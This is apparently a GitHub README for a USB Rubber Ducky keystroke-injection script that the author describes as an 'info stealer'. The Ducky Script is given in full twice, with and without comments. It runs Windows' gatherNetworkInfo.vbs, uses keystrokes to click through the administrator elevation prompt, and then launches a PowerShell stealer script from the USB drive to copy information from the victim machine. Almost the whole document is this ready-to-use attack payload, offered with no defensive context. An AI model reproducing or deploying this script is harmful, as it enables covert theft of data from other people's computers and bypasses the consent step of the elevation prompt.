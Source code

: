 # Rubber_Ducky_Gather_Network_Info
A very quickly script for rubber ducky which exploits the gatherNetworkInfo.vbs file in the C: \ Windows \ System32 folder to steal different information from the victim machine.

![Alt text](https://github.com/JonnyBanana/Rubber_Ducky_Gather_Network_Info/blob/master/images/PrivacyPolicy.png "Rubber_Ducky_Gather_Network_Info by JonnyBanana")

<h2>Gather_Network_Info_Script</h2>

REM gathernetworkInfo a info stealer script by JonnyBanana
</BR>
REM https://github.com/JonnyBanana
</BR>
REM large delay beacause Windows require a lot of time to read the Ducky with twin duck firmware
</BR>
DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  

DELAY 200
</BR>
REM run as admin
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
REM the scripts require a little of time to create the files....
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
REM the Rubber Ducky MUST renamed on " _ " (bottom bar)
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>
REM the last command  takes about thirty seconds to copy all the informations
</BR>
REM so be patient...



<h6>Script Without Comments</H6>

DELAY 10000
</BR>
GUI R
</BR>
DELAY 200
</BR>
STRING cmd  /C "start gatherNetworkInfo.vbs"  
</BR>
DELAY 200
</BR>
CTRL-ALT ENTER
</BR>
DELAY 100
</BR>
LEFTARROW
</BR>
DELAY 100
</BR>
ENTER
</BR>
DELAY 15000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
STRING powershell
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
</BR>
DELAY 200
</BR>
ENTER
</BR>
